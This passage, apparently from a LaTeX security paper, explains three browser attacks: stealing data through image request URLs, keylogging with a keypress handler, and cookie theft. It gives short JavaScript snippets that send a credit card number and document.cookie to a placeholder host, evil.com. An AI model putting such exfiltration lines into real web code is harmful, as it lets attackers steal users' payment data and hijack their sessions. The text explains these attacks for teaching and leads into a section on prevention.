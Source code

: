 \begin{description}

\item[Sensitive Data Theft Attacks:] \hfill \\
By sending a GET request to a server under the attacker's control, the attacker can steal information in the URL of an image request:

\begin{snippet}
img.src = "evil.com/pic.png?" + credit_card_number;
\end{snippet}

The attacker uses the request for the image as a channel to steal the user's credit card number as a payload in the GET request.
Merely changing the URL targeted by the  attribute of an image triggers loading of the image.

\item[Keylogging Attacks:] \hfill \\
Similarly, to steal a username and password combination, an attacker might craft code that logs keystrokes by registering an event handler:

\begin{snippet}
document.onkeypress = listenerFunction;
\end{snippet}

The listener function records the user's keystrokes and sends them to the attacker's server through an HTTP request.

\item[Cookie Stealing Attacks:] \hfill \\
Furthermore, if a script can access cookies, then an attacker can also steal a session cookie between the browser and an honest site by concatenating the  to the URL of the image request.

\begin{snippet}
img.src = "evil.com/pic.png?" + document.cookie;
\end{snippet}

The stolen cookie allows the attacker to obtain credentials that permit impersonating the user or hijacking their session.

\end{description}

\subsection{Preventing Malicious Action}

